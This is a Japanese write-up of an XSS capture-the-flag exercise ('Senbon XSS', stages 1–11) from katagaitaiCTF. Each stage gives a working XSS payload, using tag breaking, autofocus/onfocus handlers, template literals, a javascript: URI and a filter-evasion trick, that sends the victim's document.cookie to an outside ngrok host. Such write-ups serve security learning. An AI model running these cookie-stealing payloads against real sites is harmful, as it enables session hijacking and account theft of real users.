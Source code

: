 ### katagaitaiCTF xss千本ノック write up

8月27日に秋葉原で開かれたkatagaitaiCTFに参加してきました。  
そこで行われたxss千本ノックのwrite upです。

12~43問までのwrite upはhfukudaさんがアップしています。  
[katagaitai CTF勉強会 #9 writeup(Webパート)](http://0x90.hatenablog.jp/entry/2017/08/27/201021)  

[Flask](http://flask.pocoo.org/)を使って適当にサーバを建てて[ngrok](https://ngrok.com/)を使って外部に公開してクッキーを取っていきました。  


#### Stage1/Sanity Check

> Welcome to Senbon XSS!  
> In this stage, just submit the flag `FLAG{waiwai_xss}` to the FLAG form.  
> If you submit a URL to the URL form, the victime browser will automatically access the URL.  
  
ということのなのコピーして貼り付けるだけ。


#### Stage2/Sanity Check
+がurlデコードされるから%2bにして投げる。
```
/?q=<script>location.href="http://b5236666.ngrok.io?c="%2bdocument.cookie;</script>
```

#### Stage3/Sanity Check
タグを閉じてスクリプトを埋め込む。
```
/?q="><script>location.href="http://b5236666.ngrok.io?c="%2bdocument.cookie;</script>
```

#### Stage4/Sanity Check
textareaタグを閉じてスクリプトを埋め込む。
```
/?q=</textarea><script>location.href="http://b5236666.ngrok.io?c="%2bdocument.cookie;</script><textarea>
```

#### Stage5/Sanity Check
value属性を閉じて、inputタグにフォーカスが当たったときにスクリプトを走らせます。  
ただ、このままでは即時実行出来ないので`autofocus`属性を使い最初からフォーカスを当てるようにします。
```
/?q="%20autofocus%20onfocus="location.href='http://b5236666.ngrok.io?c='%2bdocument.cookie;"
```

#### Stage6/Sanity Check
シングルクォートしか使えないので、代わりにES6から導入されたテンプレートリテラルを使用すます。
```
/?q='%20autofocus%20onfocus='location.href=`http://b5236666.ngrok.io?c=${document.cookie}`;'
```

#### Stage7/Sanity Check
今回もテンプレートリテラルを使っていく。
```
/?q=value%20autofocus%20onfocus=location.href=`http://b5236666.ngrok.io?c=${document.cookie}`;
```

#### Stage8/Sanity Check
iframeタグのsrcに直接スクリプトを書く。
```
/?q=javascript:location.href=`http://b5236666.ngrok.io?c=${document.cookie}`;
```

#### Stage9/Sanity Check
scriptタグを埋め込みます。
```
/?q=<script>location.href=`http://b5236666.ngrok.io?c=${document.cookie}`;</script>
```

#### Stage10/Sanity Check
いろいろできるんだけど、chromeのxssフィルターに引っかかりまくった…  
hfukudaさんのwrite upをみて解けた。
```
/?q=<img%20src=x%20oscriptnerror=location.href="http://b5236666.ngrok.io?c="%2bdocument.cookie;>
```

#### Stage11/Sanity Check
Stage10といっしょ。
```
/?q=<img%20src=x%20oscriptnerror=location.href="http://b5236666.ngrok.io?c="%2bdocument.cookie;>
```